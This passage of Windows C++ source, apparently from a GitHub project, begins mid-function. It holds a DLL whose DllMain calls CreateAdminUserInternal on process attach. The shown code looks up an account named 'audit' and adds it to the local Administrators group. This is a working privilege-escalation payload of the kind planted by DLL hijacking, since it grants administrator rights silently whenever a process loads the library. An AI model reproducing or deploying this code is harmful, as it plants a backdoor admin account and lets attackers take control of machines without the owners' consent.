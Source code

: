 ```cpp
		return rc;
	}

	//
	// Get user SID
	// http://msdn.microsoft.com/en-us/library/aa379159(v=vs.85).aspx
	//

	b = LookupAccountName(
		NULL,			// local server
		_T("audit"),	// account name
		Sid,			// SID
		&cbSid,			// SID size
		Domain,			// Domain
		&cbDomain,		// Domain size
		&snu			// SID_NAME_USE (enum)
	);

	if (!b) {
		dw = GetLastError();
		_tprintf(_T("LookupAccountName FAIL %d 0x%08x\r\n"), dw, dw);
		return dw;
	}

	//
	// Add user to "Administrators" local group
	// http://msdn.microsoft.com/en-us/library/aa370436%28v=VS.85%29.aspx
	//

	memset(&gd, 0, sizeof(gd));

	gd.lgrmi0_sid = (PSID)Sid;

	rc = NetLocalGroupAddMembers(
		NULL,					// local server
		_T("Administrators"),
		0,						// information level
		(LPBYTE)&gd,
		1						// only one entry
	);

	if (rc != NERR_Success) {
		_tprintf(_T("NetLocalGroupAddMembers FAIL %d 0x%08x\r\n"), rc, rc);
		return rc;
	}

	return 0;
}


BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
		CreateAdminUserInternal();
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
```